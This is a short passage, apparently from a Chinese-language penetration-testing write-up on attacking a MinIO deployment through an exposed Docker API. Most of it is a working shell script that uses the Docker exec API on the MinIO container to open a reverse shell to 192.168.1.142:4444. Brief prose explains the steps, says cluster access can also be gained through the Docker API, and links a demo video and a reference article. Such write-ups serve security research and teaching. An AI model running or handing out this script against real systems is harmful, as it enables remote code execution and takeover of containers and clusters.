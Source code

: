 ```shell
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

这个脚本所干的事情比较简单，一个是遍历了所有容器，如果发现其镜像的名字中包含`minio/minio`，则认为这个容器就是MinIO所在的容器。拿到这个容器的Id，用exec的API，在其中执行反弹shell的命令

[Youtube 演示链接](https://www.youtube.com/embed/WyDEn0wUhPc)

当然，我们也可以通过Docker API来获取集群权限

## 参考文章

https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html


